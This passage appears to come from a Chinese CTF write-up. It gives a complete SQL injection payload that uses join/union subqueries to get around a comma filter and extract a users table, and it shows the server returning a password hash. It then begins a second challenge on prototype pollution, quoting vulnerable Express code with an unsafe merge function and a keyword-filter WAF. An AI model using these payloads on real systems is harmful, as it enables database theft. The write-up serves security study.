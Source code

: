 `select 3` 替换为：

```
select i.1 from 
(select * from ((select 1)A join (select 2)B join (select 3)C) union select * from users)i 
limit 1 offset 1
```

查询username列，password列替换为`i.2`，`i.3`即可

最终playload：

username: `1\\`

password:

```
union select * from(
    (select 1)A join (select 2)B join(
        select i.3 from(
            select * from (
                    (select 1)A join (select 2)B join (select 3)C
            )union select * from users
        )i limit 1 offset 1
    )C

)#
```

回显：

{"code":2,"username":"2","password":"`74b87337454200d4d33f80c4663dc5e5`","result":"SUCCESS"}

 

 

 

### **0x02第二题**

考点：JS原型链污染、MySQL远程登录任意文件读取

给了index.js源码：

```
var express = require('express');
var router = express.Router();
var mysql  = require('mysql');


const isObject = obj => obj && obj.constructor && obj.constructor === Object;
function merge(a, b) {
  for (let attr in b) {
    if (isObject(a[attr]) && isObject(b[attr])) {
      merge(a[attr], b[attr]);
    } else {
      a[attr] = b[attr];
    }
  }
  return a
}
function waf(value){
  let re = /(,| |or|\||\^|&|;|BENCHMARK|SLEEP)/ig;
  let arr = value.match(re);
  if (arr === null){
    return 0;
  }
  return 1;
}
function clone(a) {
  return merge({}, a);
```